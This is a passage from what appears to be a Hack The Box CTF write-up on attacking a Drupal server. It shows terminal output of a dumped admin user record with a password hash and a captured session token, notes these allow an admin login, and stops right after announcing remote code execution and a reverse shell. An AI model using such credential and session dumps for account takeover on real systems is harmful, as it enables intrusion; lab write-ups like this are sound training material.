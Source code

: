 File uploaded!!

In the directory it gives two files, `user.json` and `session.json`, while checking them it gives admin password of drupal CMS and cookies too by using them I can login as `admin` but that's not what i need now.

```json
root@kali:~/CTF/HTB/Boxes/Bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1492102672",
    "login": 1593151371,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}
root@kali:~/CTF/HTB/Boxes/Bastard# cat session.json 
{
    "session_name": "SESS3be1999be4b134a44bef1e6c979c5741",
    "session_id": "d5-kjU1clAEtFdlM7C-bAmvvkrt-wnHhf4GYzMQFVQ4",
    "token": "fQTBbEvUd0277ut2H5Cy-lsHAGoiKsL6YTRBOPBC5j0"
```

Now we have RCE, Time to get reverse shell
